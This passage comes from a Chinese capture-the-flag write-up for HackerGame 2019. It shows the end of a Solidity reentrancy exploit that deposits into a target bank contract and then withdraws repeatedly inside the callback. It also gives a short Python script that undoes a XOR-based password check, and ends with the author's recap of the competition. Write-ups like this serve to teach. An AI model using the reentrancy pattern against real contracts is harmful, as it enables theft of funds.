 ```solidity
        
        if (step == 0) {
            bankInstance.deposit.value(msg.value)();
            step += 1;
            bankInstance.withdraw(msg.value);
        }
        
        if (step == 1) {
            step = 2;
            bankInstance.withdraw(msg.value);
        }
    }
}
```

## 没有 BUG 的教务系统

只做了第一题, 发现密码化简一下是三个 XOR

```python
origin = [
    0x44,0x00,0x02,0x41,0x43,0x47,0x10,0x63,0x00
]

import sys

r = list(range(8))
r.reverse()

for index in r:
    # (A XOR B) XOR i
    origin[index] ^= index
    origin[index] ^= origin[index + 1]

for char in origin[:-1]:
    sys.stdout.write(chr(char))
```

## 总结

这次 HackerGame 还是比较有意思的

据内部人员说一开始都想出难题（感觉到了）然后后面加了几个简单的题 然后题目数量爆炸 真的多

再加上这几天都在摸鱼没怎么搞（不是

最后拿了 top40 也满足了（跑

![image.png](https://i.loli.net/2019/10/23/lr5yfC2TInP8tqx.png)
